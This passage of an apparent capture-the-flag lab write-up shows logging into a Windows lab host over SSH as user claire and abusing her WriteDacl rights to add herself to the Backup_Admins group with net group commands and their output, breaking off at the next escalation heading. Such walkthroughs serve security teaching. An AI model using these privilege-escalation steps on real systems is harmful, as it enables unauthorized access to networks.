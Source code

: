 Now I can use that password to ssh in as claire:

```

root@kali# ssh claire@10.10.10.77
claire@10.10.10.77's password:
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

claire@REEL C:\Users\claire>

```

## Privesc: claire -> Backup\_Admins

From the analysis before, I know that claire has WriteDacl rights on the Backup\_Admins group. I can use that to add her to the group. First, see that the only member of the group is ranj:

```

claire@REEL C:\Users\claire>net group backup_admins
Group name     Backup_Admins
Comment

Members
-------------------------------------------------------------------------------
ranj
The command completed successfully.

```

Now add claire:

```

claire@REEL C:\Users\claire>net group backup_admins claire /add
The command completed successfully.

claire@REEL C:\Users\Administrator>net group backup_admins
Group name     Backup_Admins
Comment

Members
-------------------------------------------------------------------------------
claire                   ranj
The command completed successfully.

```

Despite the fact that it shows claire now in the group, I had to log out and back in to get it to take effect.

## Privesc: Backup\_Admins -> Administrator

